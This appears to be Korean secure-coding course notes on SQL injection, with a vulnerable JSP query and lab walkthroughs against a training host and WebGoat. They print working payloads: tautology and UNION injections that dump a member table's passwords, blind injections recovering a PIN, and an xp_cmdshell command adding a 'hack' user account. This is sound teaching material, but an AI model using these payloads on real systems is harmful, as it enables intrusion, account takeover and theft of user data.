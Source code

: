 ## part 04. 보안취약점 제거를 위한 코딩 기법

### 1. 입력값 검증 부재와 삽입

- 규범화(Canonicalization): 데이터 손실 없이 입력 데이터를 가장 간단하면서 대등한 형태로 축소하는 과정
- 정규화(Normalization): 데이터 손실은 있지만 알려진 가장 간단한 형태로 변환하는 과정
- 새니타이즈(Sanitization): 데이터를 받은 서브시스템의 요구사항에 맞게 데이터를 가공하는 과정
- 검증(Validation): 입력 데이터가 프로그램의 정당한 프로그램 입력 영역 안에 있는지 확인하는 과정



#### - SQL 삽입

피해: 1. DB 정보 열람 및 추가, 수정, 삭제/ 2. 프로시저를 통해 운영체제 명령어 수행/ 3. 웹 애플리케이션을 조정		해  다른 시스템 공격/ 4. 외부 프로그램 사용/ 5. 불법 로그인/

search.jsp

\-----------------------------

String ptext = request.getParameter("text");

String query = "select * from data where keyword = '" + ptext + "'";

Statement stmt = connection.createStatement();

stmt.executeQuery(query);

정상적인 요청 ⇒ search.jsp?text=abcd

⇒ select * from data where keyword = 'abcd'

비정상적인 요청 - SQL Injection 공격 유형



#1 항상 참이 되는 입력 -> 모든내용이 반환 = 권한 밖의 데이터에 대해 접근이 가능.

⇒ search.jsp?text=abcd' or 'a' = 'a

⇒ select * from data where keyword = 'abcd' or 'a' = 'a'

⇒ data 테이블에 모든 데이터를 조회해서 반환



\#2 오류를 유발하는 입력

⇒ search.jsp?text=abcd'

⇒ select * from data where keyword = 'abcd''

→ 홑따움표의 개수가 일치하지 않아서 오류가 발생 → 오류 메시지에 대한 처리가 불완전하여 시스템 내부 정보가 사용자 화면에 출력될 수 있음



 #3 Stored Procedure를 호출하는 입력 => DB 서버의 제어권 탈취에 사용

⇒ search.jsp?text=abcd'; exec xp_cmdshell 'net user hack hack /add'; --

⇒ select * from data where keyword = 'abcd'; exec xp_cmdshell 'net user hack hack /add'; --'



#4. UNION 구문을 이용한 호출 

UNION 구문 설명 ⇒ [https://zetawiki.com/wiki/SQL_UNION,_UNION_ALL_%EC%97%B0%EC%82%B0%EC%9E%90](https://zetawiki.com/wiki/SQL_UNION,_UNION_ALL_연산자)

우편번호 조회 서비스

<http://70.12.50.56:9090/zipcode.asp>?dong=하대동

⇒ select * from address where dong = '하대동'

우편번호 조회 서비스 결과에 공격자가 원하는 정보가 함께 출력되도록 입력값 조작

select * from address where dong = '하대동' UNION select * from user --'

⇒ <http://70.12.50.56:9090/zipcode.asp>?dong=하대동' UNION select * from user --

UNION 구문을 사용하기 위한 전제 조건

1. 컬럼의 개수와 데이터 타입이 동일해야 한다. ⇒ 정상 쿼리(우편번호 조회 쿼리) 실행을 통해서 반환되는 컬럼의 개수와 각 컬럼의 데이터 타입을 확인해야 한다.
2. 공격자가 원하는 정보를 포함하고 있는 테이블과 컬럼의 이름을 알고 있어야 한다. ⇒ 외부에서 (또는 검색을 통해서) 확인 가능한 DBMS의 시스템 테이블을 우선적으로 사용해야 한다.

LAB 우편번호 조회 서비스를 이용해서 해당 사이트([http://70.12.50.56:9090](http://70.12.50.56:9090/zipcode.asp))의 계정을 탈취해서 로그인해 보세요.

\-1 우편번호 조회 서비스를 통해서 반환하는 컬럼의 개수를 확인

select * from address where dong = 'a' order by 1 --' 

⇒ .../zip_code.asp?dong=a' order by 1 --

⇒ .../zip_code.asp?dong=a' order by 8 --

Microsoft OLE DB Provider for SQL Server 오류 '80040e14'

ORDER BY 위치 번호 8이(가) SELECT 목록의 항목 번호 범위를 벗어났습니다.

/zip_search.asp, 줄 21

→ 우편번호 조회 서비스를 위한 쿼리는 7개의 컬럼을 반환한다.

⇒ Error-Based SQL Injection

-2 UNION 구문을 이용해서 숫자로 구성된 7개의 값을 출력

select * from address where dong = 'a' and 1=2 UNION select 1,2,3,4,5,6,7 --' 

⇒ .../zip_code.asp?dong=a' and 1=2 UNION select 1,2,3,4,5,6,7 --

Microsoft OLE DB Provider for SQL Server 오류 '80040e07'

varchar 값 '110-753'을(를) 데이터 형식 int(으)로 변환하지 못했습니다.

/zip_search.asp, 줄 21

\-3 UNION 구문을 이용해서 해당 DBMS의 종류를 확인

select * from address where dong = 'a' and 1=2 UNION select 1,db_name(),@@version,4,5,6,7 --' 

-4 MS-SQL의 시스템 테이블을 이용해서 해당 DB에서 사용하고 있는 사용자 테이블 목록을 조회

<https://docs.microsoft.com/ko-kr/sql/relational-databases/system-tables/system-base-tables?view=sql-server-2017>

<https://docs.microsoft.com/ko-kr/sql/relational-databases/system-compatibility-views/sys-sysobjects-transact-sql?view=sql-server-2017>

select * from address where dong = 'a' and 1=2 UNION select 1,id,name,4,5,6,7 from sysobjects where xtype='U' --' 

-5 member 테이블의 컬럼 정보(이름)를 조회

<https://docs.microsoft.com/ko-kr/sql/relational-databases/system-compatibility-views/sys-syscolumns-transact-sql?view=sql-server-2017>

select * from address where dong = 'a' and 1=2 UNION select 1,name,3,4,5,6,7 from syscolumns where id=2073058421 --' 

select * from address where dong = 'a' and 1=2 UNION select 1,name,3,4,5,6,7 from syscolumns where id=(select id from sysobjects where name='member') --' 

\-6 member 테이블에 정보를 조회

select * from address where dong = 'a' and 1=2 UNION select 1,bId,bName,bPass,bMail,bPhone,7 from member --'



#5. Blind SQL Injection 

⇒ 참인 조건과 거짓인 조건에 따라 서버의 반응이 다른 것을 이용한 공격 기법

WebGoat > Injection Flaws > Blind Numeric SQL Injection 

입력한 계정 번호(account number)의 유효성 검증을 수행해주는 서비스

서버 내부 처리를 예측

select * from accounts where account_no = 101

→ 결과가 있으면 → Account number is valid.

→ 결과가 없으면 → Invalid account number.

select * from accounts where account_no = 101 and 1=1

→ 결과가 있을 듯 → Account number is valid.

select * from accounts where account_no = 101 and 1=2

→ 결과가 없을 듯 → Invalid account number.

문제 : pins 테이블에서 cc_number의 값이 1111222233334444인 pin 값을 구하시오. ⇒ select pin from pins where cc_number = '1111222233334444'

select * from accounts where account_no = 101 and (select pin from pins where cc_number = '1111222233334444') = 2364

→ Account number is valid. ⇒ 참

→ Invalid account number. ⇒ 거짓

WebGoat > Injection Flaws > Blind String SQL Injection 

문제 : pins 테이블에서 cc_number의 값이 4321432143214321인 name 컬럼의 값을 구하시오.

select * from accounts where account_no = 101 and (select substr(name,1,1) from pins where cc_number = '4321432143214321') = 'J'

select * from accounts where account_no = 101 and (select ascii(substr(name,1,1)) from pins where cc_number = '4321432143214321') < 90

select * from accounts where account_no = 101 and (select substr(name,2,1) from pins where cc_number = '4321432143214321') = 'i'

select * from accounts where account_no = 101 and (select substr(name,3,1) from pins where cc_number = '4321432143214321') = 'l'

select * from accounts where account_no = 101 and (select name from pins where cc_number = '4321432143214321') = 'Jill'

